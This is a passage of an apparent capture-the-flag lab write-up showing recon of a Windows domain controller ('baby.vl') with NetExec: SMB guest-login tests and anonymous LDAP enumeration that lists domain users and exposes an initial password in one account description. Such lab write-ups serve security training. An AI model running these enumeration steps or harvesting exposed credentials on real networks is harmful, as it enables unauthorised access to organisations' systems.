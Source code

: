 I used `nxc` to generate a host entry, and added it to my `/etc/hosts`.
```
❯ nxc smb 10.129.234.71 --generate-hosts-file hosts
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)

❯ cat hosts
10.129.234.71     BABYDC.baby.vl baby.vl BABYDC

❯ cat /etc/hosts/ hosts | sudo sponge /etc/hosts
```

### TCP 445 - SMB

I ran `nxc` to test guest login and non-existant account login, both failed.
```
❯ nxc smb 10.129.234.71 -u 'guest' -p ''
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [-] baby.vl\guest: STATUS_ACCOUNT_DISABLED

❯ nxc smb 10.129.234.71 -u 'nonexist' -p ''
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [-] baby.vl\nonexist: STATUS_LOGON_FAILURE
```

### TCP 389 - LDAP

However, LDAP anonymous binding was enabled. It is not enabled by default in modern AD environments. This enabled me to enumerate users and other AD objects.
I ran `nxc` with the `--users` ldap switch and retrieved a list of domain users. 
```
❯ nxc ldap 10.129.234.71 -u '' -p '' --users
LDAP        10.129.234.71   389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.129.234.71   389    BABYDC           [+] baby.vl\:
LDAP        10.129.234.71   389    BABYDC           [*] Enumerated 9 domain users: baby.vl
LDAP        10.129.234.71   389    BABYDC           -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        10.129.234.71   389    BABYDC           Guest                         <never>             0        Built-in account for guest access to the computer/domain
LDAP        10.129.234.71   389    BABYDC           Jacqueline.Barnett            2021-11-21 23:11:03 0
LDAP        10.129.234.71   389    BABYDC           Ashley.Webb                   2021-11-21 23:11:03 0
LDAP        10.129.234.71   389    BABYDC           Hugh.George                   2021-11-21 23:11:03 0
LDAP        10.129.234.71   389    BABYDC           Leonard.Dyer                  2021-11-21 23:11:03 0
LDAP        10.129.234.71   389    BABYDC           Connor.Wilkinson              2021-11-21 23:11:08 0
LDAP        10.129.234.71   389    BABYDC           Joseph.Hughes                 2021-11-21 23:11:08 0
LDAP        10.129.234.71   389    BABYDC           Kerry.Wilson                  2021-11-21 23:11:08 0
LDAP        10.129.234.71   389    BABYDC           Teresa.Bell                   2021-11-21 23:14:37 0        Set initial password to BabyStart123!  <---
```
